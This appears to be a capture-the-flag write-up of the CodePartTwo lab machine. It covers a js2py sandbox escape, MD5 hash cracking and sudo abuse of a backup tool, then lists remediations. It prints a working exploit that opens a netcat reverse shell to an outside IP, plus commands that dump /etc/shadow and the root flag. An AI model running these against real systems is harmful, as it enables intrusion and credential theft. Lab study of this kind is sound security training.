| Property       | Value                                           |
| -------------- | ----------------------------------------------- |
| **OS**         | Linux                                           |
| **Difficulty** | Easy                                            |
| **Release**    | 2025-08-16                                      |
| **State**      | Retired                                         |
| **IP**         | 10.10.11.82                                     |
| **Techniques** | js2py sandbox escape, hash cracking, sudo abuse |
| **Tags**       | #web #lateralmovement #privesc #linux #python   |

---
## Summary

CodePartTwo is an easy Linux machine hosting a Flask-based web application. The app hosts a JavaScript code editor powered by `js2py` 0.74, which is vulnerable to a sandbox escape (CVE-2024-28397) allowing arbitrary command execution via `subprocess.Popen`. Exploiting this flaw grants access to the system as unprivileged user `app`. A SQLite database found in the app directory contains MD5-hashed passwords, which can be cracked to gain SSH access. Privilege escalation is achieved by abusing a `sudo` rule allowing `npbackup-cli` to run as root, which is used to back up and dump `/root/root.txt`.

---
## Enumeration

```
echo '10.10.11.82 codepartwo.htb' | sudo tee -a /etc/hosts
```

Added the IP address of the machine to the `/etc/hosts` file.

### Nmap Scan

```
sudo nmap -sV -sC codepartwo.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-28 16:13 EST
Nmap scan report for 10.10.11.82
Host is up (0.028s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 a0:47:b4:0c:69:67:93:3a:f9:b4:5d:b3:2f:bc:9e:23 (RSA)
|   256 7d:44:3f:f1:b1:e2:bb:3d:91:d5:da:58:0f:51:e5:ad (ECDSA)
|_  256 f1:6b:1d:36:18:06:7a:05:3f:07:57:e1:ef:86:b4:85 (ED25519)
8000/tcp open  http    Gunicorn 20.0.4
|_http-title: Welcome to CodePartTwo
|_http-server-header: gunicorn/20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 10.70 seconds
```
### Service Enumeration

Enumerating the Gunicorn web app running on port 8000.



Downloading the app archive and extracting it reveals the source code and dependencies.



**Vulnerable `js2py` version 0.74 in `requirements.txt`:**

```
flask==3.0.3
flask-sqlalchemy==3.1.1
js2py==0.74
```

`js2py` 0.74 is vulnerable to CVE-2024-28397, a sandbox escape allowing arbitrary Python execution via `subprocess.Popen`.

---
## Foothold

### CVE-2024-28397

CVE-2024-28397 allows an authenticated user to escape the `js2py` JavaScript sandbox and execute arbitrary system commands by accessing `subprocess.Popen` through Python's object hierarchy.

Registering an account exposes a JavaScript code editor.





### Exploitation

The following payload traverses Python's class hierarchy to locate and invoke `subprocess.Popen`, executing an arbitrary shell command.

```javascript
// [+] command goes here:
let cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.2 9001 >/tmp/f"
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
n11
```

The payload can be leveraged to gain a reverse shell on the server, successfully escaping the sandbox enviroment.

```
nc -lvnp 9001
```



Shell obtained as `app`. Upgraded to a full interactive TTY.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---
## Lateral Movement

A SQLite database is found in the `instance` directory:





The database contains MD5 password hashes for registered users.



Saving marco's hash and cracking it with john.

```
john --show --format=Raw-MD5 marco.txt
?:sweetangelbabylove

1 password hash cracked, 0 left
```
 
---
## User Flag

```
ssh marco@codepartwo.htb
# password: sweetangelbabylove
```





---
## Privilege Escalation

### Enumeration

```
marco@codepartwo:~$ sudo -l
```



Marco can run `npbackup-cli` as root. `npbackup` is a backup tool that reads a configuration file defining repository paths and credentials.

### Exploitation

The `npbackup.conf` configuration file can be edited to add privileged paths to the backup target.

```
paths:
  - /home/app/app/
  - /root/root.txt
  - /etc/shadow
```

Running the backup as root:

```
sudo /usr/local/bin/npbackup-cli -c npbackup.conf --backup
```



Dumping the root flag from the snapshot:

```
sudo /usr/local/bin/npbackup-cli -c npbackup.conf --snapshot-id 7892c729 --dump /root/root.txt
6a19f2abb0f8a1554a87516b52215bf7
```

Since `npbackup-cli` runs as root, it can back up and restore any file regardless of the user's permissions.

---
## Remediation

- **CVE-2024-28397:** Upgrade `js2py` to a patched version.
- **MD5 password hashing:** Replace MD5 with a modern password hashing algorithm such as bcrypt or Argon2.
- **sudo npbackup-cli abuse:** Remove the `npbackup-cli` sudo rule or restrict it to specific configuration files.
- **Backup configuration exposure:** Ensure backup config files containing encrypted credentials are not readable by unprivileged users.

---
## References

- [CVE-2024-28397 PoC](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)